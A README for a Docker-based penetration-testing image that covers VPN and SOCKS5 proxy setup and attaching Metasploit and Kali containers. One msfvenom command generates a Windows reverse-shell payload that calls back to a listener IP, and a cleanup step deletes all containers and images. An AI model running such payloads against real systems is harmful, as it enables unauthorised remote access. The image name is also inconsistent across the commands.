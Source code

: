 # HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* 3.56GB when built
* Zsh
* Lightweight with several security tools installed
* Development tools installed: Python, Go
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Replace `antfie.ovpn` with your openVPN configuration file and run the main VPN container with this:

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/haksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/haksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/haksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Building

First update your images. Feel free to omit metasploit and/or kali if not desired:

```
docker pull alpine
docker pull metasploitframework/metasploit-framework
docker pull kalilinux/kali-rolling
```

Then build:

```
docker build -t antfie/haksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
